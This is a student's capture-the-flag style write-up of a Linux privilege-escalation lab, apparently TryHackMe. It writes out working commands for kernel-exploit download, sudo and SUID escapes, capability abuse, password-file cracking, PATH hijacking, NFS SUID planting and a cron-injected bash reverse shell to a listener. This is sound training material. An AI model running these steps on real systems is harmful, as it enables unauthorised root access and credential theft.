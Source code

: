 # Linux Priviledge Escalation Room

## TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


## TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


## TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)


## TASK 7
This task is similar to the one above, but we need to deal with the set user id (SUID) and set group id (SGID) concepts. Using the command:
    ```find / -type f -perm -04000 -ls 2>/dev/null```
we are able to find out which services you can actually run as the owner of those services. The use of [GTFOBins] is still relevant here to list which services have SUID exploits. This section also includes the steps for using the /etc/shadow and /etc/passwd files to list valuable information. Steps are as follows:

- Create outputs of both files by running ```nano passwd.txt ``` and  ```nano shadow.txt``` and copy the contents of the ```base64 "$LFILE" | base64 --decode``` command for each while replacing the LFILE variable with which file you need to read.
- Use the unshadow tool to export to a file with ```unshadow passwd.txt shadow.txt > passwords.txt```
- Execute John the Ripper with a wordlist that will print out password in plain text ```john passwords.txt --wordlists /usr/share/wordlists/rockyou.txt``` if executing from the AttackBox. Then 

The Alternative path was to add the new user hash to the /etc/passwd file with root permissions. This could be done by using the ```openssl passwd -1 -salt ``` command and adding ```:/root:/bin/bash``` permission. This second route only works if you have the ability to sudo into root and adding edit permissions on the /etc/passwd file. 

## TASK 8
This task looks at the capabilities of the binaries on the box. using the command ```getcap -r / 2>/dev/null``` was able to answer the first three questions of this section. The additional binary that was found on the box for me was a service called view. In this case to take advantange of the capabilities I used the command
    ```/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```
This started a shell that would be started as root and I'd be able to print the contents of the flag file.

## TASK 9
I used the ```cat /etc/crontab``` command to find the list of all the chron jobs across the system. Finding the file that my user owns, I modify that file by adding the command:
    ```bash -i >&/dev/tcp/1{IP}/9000 >&1```
Once you verify that the backup.sh file has +x permissions on it, you should be ready to set up the listener on the AttackBox:
    ```nc -lnvp 9000```
The reverse shell should show up and the flag is fairly straight forward to find from there. To get Matt's password we need some of the previous skills from previous tasks to help us out. Since we're already running as root, we should be able to dump the /etc/passwd and /etc/shadow files so that we can run John the Ripper on the AttackBox to crack the code.

## TASK 10
In this task had the opportunity to use path exploits. First step was creating a C file that setuid(0) and setgid(0). 
    ```c
    #include<unistd.h>
            void main(){
                setuid(0);
                setgid(0);
                system("thm");
            }
    ```
I needed to compile this first by using th ```gcc path_exp.c -o path -w``` command before spinning up a python server ```python3 -m http.server 9000 ``` and using wget to download it to the target. Next finding paths that were writeable by using ```find  -writeable 2>/dev/null``` found an interesting path that I had access to write to. In that path is where I downloaded the compiled path file for execution and made sure it had permissions to be executed. Executing the ./test file to see if my the thm script worked, it prints out the flag contents.

## TASK 11
find the mounts from the attackbox by executing ```showmounts -e {IP}``` and then make a directory on the attackbox to mount the share drives from the target to. ```mount -o rw {IP}:/home/backup /tmp/backuptarget``` In that directory created a file that executed a ```system("/bin/bash");``` in a c file and compiled it with gcc. Doing a ```chmod +s ``` on the compiled file that was made you can note that this file is owned by root. and once executing the ./nfs file, the shell transitions from being my initial user to root.


